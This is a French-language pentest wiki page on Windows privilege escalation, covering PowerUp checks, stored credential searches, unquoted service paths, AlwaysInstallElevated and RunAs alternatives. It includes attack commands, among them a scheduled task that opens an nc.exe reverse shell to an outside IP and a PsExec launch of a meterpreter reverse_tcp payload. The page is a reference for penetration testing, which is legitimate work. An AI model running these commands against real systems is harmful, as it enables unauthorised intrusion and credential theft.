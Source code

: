 ```yaml
---
title: Elévation de priviléges (Windows)
permalink: /Elévation_de_priviléges_(Windows)/
---
```


# Elévation de priviléges (Windows)


The following elements are based on <http://toshellandback.com/2015/11/24/ms-priv-esc/>

## PowerSploit

Le module [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) de PowerSploit permet de faire la plupart des contrôles ci-dessous de manière complétement automatisée.

```text
Import-Module Privesc
Invoke-AllChecks
```

## Vulnérabilités systèmes

Il est possible de trouver des vulnérabilités non patchées sur le système. L'outil [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester) facilite cette vérification.

## Mot de passes

De nombreux fichiers peuvent contenir des mots de passes sensibles. La suite PowerUp dispose des fonctions suivantes pour trouver certains d'entre eux (tous sont appelés avec Inboke-AllChecks):

```text
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

Voir [Stored Credentials (Pentestlab)](https://pentestlab.blog/2017/04/19/stored-credentials/).

## Trusted Service Paths

Si le "Service path" d'un service n'est pas mis entre quote il est possible d'effectuer une attaque. Pour l'exemple on considère le Service Path suivant:

``` text
C:\Program Files\Some Folder\Service.exe
```

Windows va essayer d'appeler les programmes suivant, jusqu'à ce que l'un d'eux soit identifé:

``` text
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

Ceci peut conduire à une compromission s'il est possible de créer `C:\Program.exe` ou `C:\Program` `Files\Some.exe`

[WMIC](/WMIC "wikilink") peut être utilisé pour contrôler ce point:

``` text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

On peut utiliser [icacls](/icacls "wikilink") pour vérifier les permissions:

``` text
icacls "C:\Program Files (x86)\Privacyware"
```

On peut ensuite relancer le service:

``` text
sc stop PFNet
sc start PFNet
```

Si on a pas les privilèges pour redémarrer le service, on peut essayer de redémarrer le serveur.

## Modifier un service Windows

Avec de la chance il est possible de modifier un service. L'outil [accesschk](/accesschk "wikilink") peut être utilisé pour vérifier ceci:

``` text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

On peut regarder les propriétés du service PFNet

``` text
sc qc PFNet
```

Il est parfois possible de changer le binaire lui même.

## AlwaysInstallElevated
Regarder si l'option `AlwaysInstallElevated` est active. Cette option permet à un utilisateur lambda d'installer des logiciels comme s'il disposait des droits systèmes.

``` text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Voir [Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)

## Alternatives à RunAs

On est parfois dans des situations où on a:

-   Un shell non interactif et non privilégié sur un serveur
-   Le mot de passe administrateur du serveur
-   Pas de possibilité de se connecter à distance avec ce mot de passe

Dans ce cas il est possible d'executer des commandes avec une des méthodes suivantes.

### PsExec

Il faut avoir uploaddé [PsExec](/PsExec "wikilink"). Ensuite on peut exécuter la commande suivante:

``` bash
PsExec \\MACHINE -u user -p password C:\target\encrypted_meterpreter_reverse_tcp_80.exe
```

### schtasks

Il est possible de créer une "scheduled task" et passer le mdp admin sur la ligne de commande.

``` bash
schtasks /create /sc once /tr "nc.exe -e cmd.exe 192.168.30.156 443" /tn MASUPERTACHE /st 00:00:00 /ru user /rp password
schtasks /run /tn MASUPERTACHE
```

## Ressources

### Outils

-   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) pour identifier des possibilité d'élévation de priviléges.
-   [BypassUAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) pour contourner l'UAC.
-   Attaque [Hot Potato](https://foxglovesecurity.com/2016/01/16/hot-potato/)
-   [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

### Documents

-   [Encylopaedia of Windows Privilege Escalation (Video)](https://www.youtube.com/watch?v=kMG8IsCohHA)
-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [All roads lead to SYSTEM (PDF)](https://labs.mwrinfosecurity.com/system/assets/760/original/Windows_Services_-_All_roads_lead_to_SYSTEM.pdf)
-   [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
-   [Windows Privilege Escalation Vectors](http://toshellandback.com/2015/11/24/ms-priv-esc/Common)
-   [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)



